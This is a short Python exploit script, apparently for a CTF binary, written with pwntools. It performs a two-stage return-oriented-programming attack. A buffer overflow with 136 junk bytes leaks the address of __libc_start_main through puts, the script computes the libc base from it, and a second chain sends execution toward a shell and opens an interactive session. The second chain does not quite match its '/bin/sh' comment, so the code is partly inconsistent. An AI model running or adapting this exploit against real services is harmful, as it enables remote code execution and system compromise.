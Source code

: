 ```

#create the first rop chain to leak libc address
JUNK = (b"A"*136)
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

#p.sendlineafter("sErVeR!", rop)
p.sendline(rop)
p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)


rop2 += p64(leak)

p.sendlineafter("sErVeR!", rop2)

p.interactive()
```
